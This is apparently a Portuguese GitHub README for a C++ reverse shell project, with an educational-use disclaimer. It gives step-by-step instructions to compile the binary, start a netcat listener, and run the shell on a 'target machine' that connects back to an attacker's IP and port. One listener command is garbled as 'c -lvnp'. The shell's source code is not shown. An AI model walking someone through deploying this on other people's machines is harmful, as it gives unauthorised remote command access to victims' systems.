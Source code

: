 # CPP Reverse Shell

[![MIT License](https://img.shields.io/badge/license-MIT-green.svg)](LICENSE)
[![GitHub Issues](https://img.shields.io/github/issues/ZXyoukai/CPP-reverse-shell.svg)](https://github.com/ZXyoukai/CPP-reverse-shell/issues)

Bem-vindo ao **CPP Reverse Shell**!  
Este projeto demonstra como implementar uma reverse shell em C++ para fins educacionais e de pesquisa.

⚠️ **Atenção:** Use este código apenas em ambientes controlados e para aprendizado. O uso indevido pode ser ilegal.

---

## 🚀 Como funciona?

Uma reverse shell conecta-se de volta a um servidor controlado pelo atacante, permitindo a execução remota de comandos.  
**Exemplo de fluxo:**
1. O atacante inicia um listener (`nc -lvnp 4444`)
2. A vítima executa o binário da reverse shell
3. O atacante recebe acesso remoto ao terminal da vítima

---

## 🛠️ Como usar

### 1. Clone o repositório
```bash
git clone https://github.com/ZXyoukai/CPP-reverse-shell.git
cd CPP-reverse-shell
```

### 2. Compile o projeto
```bash
g++ -o reverse_shell reverse_shell.cpp
```

### 3. Execute o listener no seu servidor
```bash
c -lvnp 4444
```

### 4. Execute a reverse shell na máquina alvo
```bash
./reverse_shell <IP_DO_SERVIDOR> <PORTA>
```
> Exemplo: `./reverse_shell 192.168.1.10 4444`

---

## 🤝 Contribua!

Quer melhorar este projeto?  
- Faça um fork
- Crie uma branch: `git checkout -b minha-feature`
- Envie um PR!

---

## 🔍 Referências

- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Documentação C++ Sockets](https://www.cplusplus.com/reference/cstdio/)

---

## 📜 Licença

Distribuído sob a licença MIT. Veja o arquivo `LICENSE` para mais informações.

---

> _Dúvidas ou sugestões? Abra uma [issue](https://github.com/ZXyoukai/CPP-reverse-shell/issues)!_